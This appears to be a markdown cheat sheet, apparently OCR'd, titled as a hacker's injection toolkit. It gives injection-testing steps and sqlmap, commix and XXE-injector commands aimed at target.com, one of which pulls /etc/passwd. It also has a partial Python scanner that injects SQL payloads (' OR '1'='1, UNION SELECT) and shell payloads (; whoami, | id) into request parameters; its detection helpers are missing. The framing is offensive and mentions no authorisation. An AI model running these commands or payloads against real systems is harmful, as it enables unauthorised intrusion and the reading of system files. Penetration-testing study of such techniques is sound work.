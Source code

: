 
## **THE UNSTOPPABLE HACKER'S INJECTION TOOLKIT** 🛠️💀

### **Manual Testing Approach:**
1. **Map all user inputs** - parameters, headers, cookies, body
2. **Test each input point** with various injection payloads
3. **Observe differences** in responses, errors, timing
4. **Chain vulnerabilities** for maximum impact

### **Automated Reconnaissance:**
```bash
# SQLMap for SQLi
sqlmap -u "http://target.com" --forms --batch --level=5 --risk=3

# Commix for Command Injection
commix -u "http://target.com/ping.php?ip=8.8.8.8"

# XXE Injector
python xxexploiter.py -u http://target.com/xml-endpoint -f /etc/passwd
```

### **Custom Injection Scanner:**
```python
import requests
from urllib.parse import urljoin

class InjectionScanner:
    def __init__(self, target):
        self.target = target
        self.session = requests.Session()
    
    def test_sql_injection(self, url, params):
        # SQLi payloads for different databases
        sql_payloads = [
            "'", "';", "' OR '1'='1", "')--", 
            "' UNION SELECT 1,2,3--", "' AND 1=1--", "' AND 1=2--"
        ]
        
        for param, value in params.items():
            for payload in sql_payloads:
                test_params = params.copy()
                test_params[param] = value + payload
                
                response = self.session.get(url, params=test_params)
                if self.detect_sqli(response):
                    print(f"[!] SQLi at {param}: {payload}")
                    return True
        return False
    
    def test_command_injection(self, url, data):
        cmd_payloads = ["; whoami", "| id", "&& ls", "`pwd`"]
        
        for param, value in data.items():
            for payload in cmd_payloads:
                test_data = data.copy()
                test_data[param] = value + payload
                
                response = self.session.post(url, data=test_data)
                if self.detect_cmd_injection(response):
                    print(f"[!] Command Injection at {param}: {payload}")
                    return True
        return False
    
```